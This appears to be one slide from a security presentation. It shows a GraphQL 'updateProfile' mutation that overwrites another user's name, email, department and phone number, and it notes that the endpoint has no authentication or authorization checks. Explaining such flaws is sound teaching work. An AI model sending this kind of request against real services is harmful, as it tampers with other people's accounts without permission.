

Unauthorized Profile Update
mutation {
  updateProfile(
    targetId: 2,
    fullName: "Hacked Name",
    email: "hacked@example.com",
    department: "Hacking Dept",
    phoneNumber: "0000000000"
  ) {
    id
    fullName
    email
  }
}
Impact: No authentication or authorization checks. Anyone can update any user's profile.

06